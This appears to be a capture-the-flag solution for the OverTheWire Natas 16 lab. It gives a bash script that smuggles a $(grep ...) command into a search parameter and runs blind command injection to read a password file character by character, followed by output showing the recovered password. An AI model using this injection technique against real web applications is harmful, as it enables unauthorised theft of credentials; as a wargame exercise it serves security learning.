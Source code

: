 ```bash
passwordlenght=32
CurrentChar=0
password=""
while [ $CurrentChar -ne $passwordlenght ]
do
    for letter in {{a..z},{A..Z},{0..9}}; do
        curl_output=$(curl -s "http://natas16.natas.labs.overthewire.org/?needle="%"24"%"28grep+-E+"%"5E${password}${letter}.*+"%"2Fetc"%"2Fnatas_webpass"%"2Fnatas17"%"29hackers&submit=Search" -H "Authorization: Basic bmF0YXMxNjpXYUlIRWFjajYzd25OSUJST0hlcWkzcDl0MG01bmhtaA==")
        if echo $curl_output | grep -q -v "hackers"; then
            password="${password}${letter}"
            CurrentChar=$(( $CurrentChar + 1 ))
            echo "[+] Password: $password"
            continue 2
        fi
    done
done
```

```
[+] Password: 8
[+] Password: 8P
[+] Password: 8Ps
[+] Password: 8Ps3
[+] Password: 8Ps3H
[+] Password: 8Ps3H0
[+] Password: 8Ps3H0G
[+] Password: 8Ps3H0GW
[+] Password: 8Ps3H0GWb
[+] Password: 8Ps3H0GWbn
[+] Password: 8Ps3H0GWbn5
[+] Password: 8Ps3H0GWbn5r
[+] Password: 8Ps3H0GWbn5rd
[+] Password: 8Ps3H0GWbn5rd9
[+] Password: 8Ps3H0GWbn5rd9S
[+] Password: 8Ps3H0GWbn5rd9S7
[+] Password: 8Ps3H0GWbn5rd9S7G
[+] Password: 8Ps3H0GWbn5rd9S7Gm
[+] Password: 8Ps3H0GWbn5rd9S7GmA
[+] Password: 8Ps3H0GWbn5rd9S7GmAd
[+] Password: 8Ps3H0GWbn5rd9S7GmAdg
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQ
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQN
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNd
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdk
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkh
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhP
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPk
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9c
[+] Password: 8Ps3H0GWbn5rd9S7GmAdgQNdkhPkq9cw
```
